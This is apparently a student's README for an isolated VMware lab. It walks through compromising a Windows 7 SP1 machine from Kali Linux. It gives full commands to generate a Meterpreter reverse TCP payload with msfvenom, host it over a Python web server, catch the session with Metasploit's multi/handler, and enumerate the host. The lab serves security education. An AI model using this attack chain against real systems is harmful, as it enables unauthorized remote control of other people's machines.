






# Windows 7 Penetration Testing Lab

## Overview

This project documents the creation and execution of a controlled penetration testing lab designed for cybersecurity education and research purposes. The lab simulates a real-world attack scenario against a legacy Windows 7 SP1 system from a Kali Linux attacker machine within a completely isolated VMware LAN Segment.

The purpose of this project is to provide hands-on experience with:

- Network configuration
- Lab isolation and safe testing practices
- Payload generation
- File delivery techniques
- Session handling
- Post-exploitation enumeration
- Documentation of attack methodology

---

# Learning Objectives

By completing this lab, the following skills were developed:

# Networking Fundamentals
- Static IP configuration
- LAN segment setup
- Host-to-host communication testing
- Network troubleshooting

# Offensive Security Concepts
- Payload generation
- Reverse TCP connections
- Listener configuration
- Session management

# Post-Exploitation Techniques
- System enumeration
- User identification
- Shell interaction
- File system navigation

# Documentation & Reporting
- Evidence collection
- Screenshot documentation
- Attack-chain reporting
- Security analysis

---

# Lab Architecture

```text
+--------------------+
|    Kali Linux      |
| 172.16.195.128     |
| (Attacker Machine) |
+----------+---------+
           |
           |
 VMware LAN Segment
 (Isolated Network)
           |
           |
+----------+---------+
|   Windows 7 SP1    |
| 172.16.195.129     |
|  (Target System)   |
+--------------------+
```

The environment was intentionally isolated from external networks to eliminate risk and provide a safe testing platform.

---

# Lab Environment

| Component | Details |
|------------|----------|
| Hypervisor | VMware Workstation |
| Attacker OS | Kali Linux |
| Target OS | Windows 7 SP1 |
| Network Type | VMware LAN Segment |
| Internet Access | Disabled |
| Payload Type | Reverse TCP |
| Listener | Metasploit Multi/Handler |

---

# Step 1 – Network Configuration

# Windows 7 Configuration

```text
IP Address: 172.16.195.129
Subnet Mask: 255.255.255.0
Firewall: Disabled
```

# Kali Linux Configuration

```bash
ip link
sudo ip addr add 172.16.195.128/24 dev eth0
sudo ip link set eth0 up
```

# Connectivity Verification

```bash
ping 172.16.195.129
```

Expected Result:

- Successful ICMP responses
- Confirmed communication between attacker and target
- Verified network routing


---

# Step 2 – Payload Generation

A Windows executable payload was generated using MSFVenom.

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=172.16.195.128 \
LPORT=4444 \
-f exe \
-o test_lab.exe
```

# Purpose

The payload is configured to initiate a reverse connection back to the attacker's machine.

# Parameters

| Parameter | Description |
|------------|-------------|
| Payload | windows/meterpreter/reverse_tcp |
| LHOST | Kali IP Address |
| LPORT | Listening Port |
| Format | Windows EXE |



---

# Step 3 – Local File Hosting

A lightweight Python HTTP server was used to host the payload.

```bash
python3 -m http.server 80
```

# Advantages

- Quick deployment
- No additional software required
- Accessible from the target machine



---

# Step 4 – Payload Delivery

The target machine accessed the hosted payload through Internet Explorer.

# Process

1. Open Internet Explorer.
2. Navigate to:

```text
http://172.16.195.128
```

3. Download the payload.
4. Execute the payload.



---

# Step 5 – Listener Configuration

Metasploit Framework was configured to receive incoming connections.

```bash
msfconsole
```

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.195.128
set LPORT 4444
exploit
```

# Expected Outcome

A successful Meterpreter session is established between the target and attacker systems.



---

# Step 6 – Post-Exploitation Enumeration

After obtaining a session, several enumeration commands were executed.

# System Information

```bash
sysinfo
```

# Current User

```bash
getuid
```

# Interactive Shell

```bash
shell
```

# Windows User Context

```cmd
whoami
```

# File System Enumeration

```cmd
dir
```

**Screenshots:**




---

# Tools Used

- Kali Linux
- VMware Workstation
- Metasploit Framework
- MSFVenom
- Python HTTP Server
- Windows 7 SP1

---

# Skills Demonstrated

- Penetration Testing Methodology
- Virtual Lab Design
- Network Configuration
- Session Management
- Post-Exploitation Enumeration
- Security Documentation
- Technical Reporting

---


